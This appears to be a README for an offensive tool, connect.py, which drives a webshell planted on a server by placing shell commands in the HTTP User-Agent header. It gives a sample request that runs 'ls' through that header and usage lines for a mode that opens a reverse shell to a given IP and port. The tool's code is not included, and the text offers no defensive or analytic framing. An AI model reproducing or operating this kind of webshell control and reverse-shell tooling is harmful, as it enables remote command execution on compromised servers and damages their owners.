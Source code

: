 This tool was created for automate process of make connections to  webshell by header

for example, when there is a page webshell.php and the Header <b>User-Agent</b> is accepting 
code execution in the server 

and you can execute commands as in the example:

<br>
GET /webshell.php HTTP/1.1<br>
<b>User-Agent: ls </b> <br>
Host: example.com <br>
Accept-Language: en-us <br>
Accept-Encoding: gzip, deflate <br>
Connection: Keep-Alive <br>




<h1>How to use</h1>

<b>default connection:</b>

python3 connect.py [webpage] [Argument]

<b>Reverse Shell connection:</b>

python3 connect.py [webpage] [Argument] [reverse_shell_ip] [reverse_shell_port]

